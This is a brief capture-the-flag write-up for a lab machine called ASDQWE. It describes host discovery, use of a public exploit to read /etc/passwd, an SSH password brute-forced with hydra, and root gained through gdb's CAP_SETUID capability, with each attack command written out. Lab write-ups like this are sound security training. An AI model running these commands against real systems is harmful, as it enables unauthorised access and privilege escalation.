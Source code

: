 # ASDQWE
**network discovery**
I usually use __Fping__ command to watch active machines in my network  

![fping_image](/images/fping.png)

i saw the __192.168.1.113__ is my the **CTF** machine 
![namp](/images/nmap.png)

**FIND 8080 port lets check it**

i did some search on site but nothing ....

only got this information 

![info](/images/information.png)

i tried to brouteforce the login page but its seems to protected  so i got stuck 

###  Exploit-db

i check exploit-db  and this is result 
![exploit-db](/images/searchsploit.png)
exploit number is  __51993__
i import the file and can read some files  

```bash
python 51993.py  -u http://192.168.1.113:8080 -p /etc/passwd
```
_Result_ : 

![passwd](/images/passwd.png)

users that have bash : Root , kali , penetration 
*i serched a lot for id_rsa or any password but nothing ...*

i spend a 30 min to figure the solution of gettin a shell it  .   Thanks to my friend **ll104567**

from the name of machine i thought that password might be a silly  so ...
### Hydra
**hydra -l kali -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt  ssh://192.168.1.113**
![hydrapassword](/images/hydra.png)

### PRIV ESC - ROOT
 
Getting root was easy 
check  capabilities and got below results :
[cap](/images/setuiddiscovery.png)

Find *GDB* command that got capabilities 

**If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.**

# ROOT ACCESS :

**gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit**

DONE :)

![root](/images/root.png)

it is my first write up, im sorry if i explained bad <3